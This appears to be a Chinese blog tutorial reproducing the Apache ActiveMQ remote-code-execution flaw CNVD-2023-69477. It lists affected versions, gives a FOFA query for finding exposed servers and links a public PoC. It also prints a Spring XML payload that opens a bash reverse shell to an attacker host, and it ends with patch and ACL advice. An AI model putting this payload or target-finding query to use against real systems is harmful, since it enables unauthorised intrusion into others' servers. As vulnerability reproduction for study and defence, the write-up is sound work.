

# Apache ActiveMQ RCE漏洞复现（CNVD-2023-69477）

### 0x01 产品简介

  [ActiveMQ](https://so.csdn.net/so/search?q=ActiveMQ&spm=1001.2101.3001.7020)是一个开源的消息代理和集成模式服务器，它支持Java消息服务(JMS) API。它是Apache Software Foundation下的一个项目，用于实现消息中间件，帮助不同的应用程序或系统之间进行通信。

### 0x02 漏洞概述

 Apache ActiveMQ 中存在远程代码执行漏洞，Apache ActiveMQ在默认安装下开放了61616服务端口，而该端口并没有对传入数据进行适当的过滤，从而使攻击者能够构造恶意数据以实现远程代码执行。

### 0x03 影响范围

Apache ActiveMQ < 5.18.3

Apache ActiveMQ < 5.17.6

Apache ActiveMQ < 5.16.7

Apache ActiveMQ < 5.15.16 

### 0x04 复现环境

FOFA：app="APACHE-ActiveMQ" && port="61616"


### 0x05 漏洞复现

PoC地址：[https://github.com/trganda/ActiveMQ-RCE](https://github.com/trganda/ActiveMQ-RCE "https://github.com/trganda/ActiveMQ-RCE")

把项目Get到本地，导入IDEA中运行



 直接运行会发现报错：java: 警告: 源发行版 11 需要目标发行版 11

PS:这种一般是你idea的 配置文件iml 与 项目中 配置的jdk版本是不一致导致的


这里需要安装jdk11，配置项目


 **漏洞利用**

修改Main.java以下两处


**反弹shell** 

将rce.xml，上传至vps

```cobol
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/your-ip/6666 0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
```

利用python开启http服务 


nc开启监听


运行Main.java


成功反弹shell


### 

### 0x06 修复建议 

**临时缓解方案**

通过网络ACL策略限制访问来源，例如只允许来自特定IP地址或地址段的访问请求。

**升级修复方案**

目前官方已通过限制反序列化类只能为Throwable的子类的方式来修复此漏洞。建议受影响用户可以更新到：

Apache ActiveMQ >= 5.18.3

Apache ActiveMQ >= 5.17.6

Apache ActiveMQ >= 5.16.7

Apache ActiveMQ >= 5.15.16

https://github.com/apache/activemq/tags
